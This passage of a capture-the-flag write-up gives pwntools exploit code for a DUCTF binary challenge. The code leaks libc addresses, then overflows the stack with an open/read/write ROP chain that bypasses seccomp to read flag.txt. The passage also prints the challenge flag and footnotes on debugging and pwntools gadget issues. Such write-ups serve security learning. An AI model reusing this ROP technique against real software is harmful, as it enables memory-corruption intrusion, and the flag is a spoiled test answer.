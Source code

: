 ```python
rop.gets(scratch)	# MODIFIED; used to write "flag.txt"
rop.main()

r = remote('chal.duc.tf', 30006)
r.sendlineafter('to?\n', rop.chain())
libc_leaks = {'puts': extract_first_bytes(r.recvline(),6),
              'gets': extract_first_bytes(r.recvline(),6)}
context.libc = context.libc_database.libc_find(libc_leaks)

# New part of the exploit; this is the 3 step process stated above
r.sendline('flag.txt\0')        # Write flag.txt for later; note MODIFIED comment
READ, WRITE, OPEN = range(3)    # Constants for syscall
rop = ROP(context.libc)         # Use libc for gadgets
rop.raw(b'\0'*0x38)             # overflow here
rop.system_call(OPEN,  [scratch,0],    ret=True) # fd = open("flag.txt", O_RDONLY); ret
rop.system_call(READ,  [3,scratch,40], ret=True) # read(fd, scratch, 40); ret
rop.system_call(WRITE, [1,scratch,40])           # write(fd, scratch, 40);
r.sendlineafter('to?\n', rop.chain())
print(r.recvline())             # get the flag
```

That's it<sup>4</sup>.

## Flag
`DUCTF{secc0mp_noT_$tronk_eno0Gh!!@}`

## Footnotes
1. You can try debugging locally if you want:
   ```python
   r = process('./return-to-whats-revenge', env={"LD_PRELOAD": "./libc-database/db/libc6_2.27-3ubuntu1_amd64.so ./libc-database/libs/libc6_2.27-3ubuntu1_amd64/ld-2.27.so"})
   ```
   Personally, I was unable to verify this while debugging locally. `gdb` appears to have adverse effects on investigating seccomp filters.
2. You can search up what each one does [here](https://syscalls64.paolostivanin.com/)
3. There are actually a few complications that led to deviations in the design of the exploit:
   * Because fd is pretty much *always* going to be 3, I didn't bother copying the return value of `open()`
   * .bss is actually populated with important glibc symbols. Because program initialisation allocates pages of `0x1000`, we can just write to an empty part of memory that is unreferenced in the program (in this case, `0x404100-0x405000` is fully unoccupied and rw)
   * `pwntools` actually has (had, pending [PR](https://github.com/Gallopsled/pwntools/pull/1678)) issues with finding `syscall; ret` gadgets (which are needed for the 3-step ROP chain here), so I had to patch that in as functionality while writing the exploit.
4. In case you try to run this for yourself: because of the pwntools issue stated in (3), the exploit code is definitely not going to run on your machine unless you take the time to install bleeding-edge dev pwntools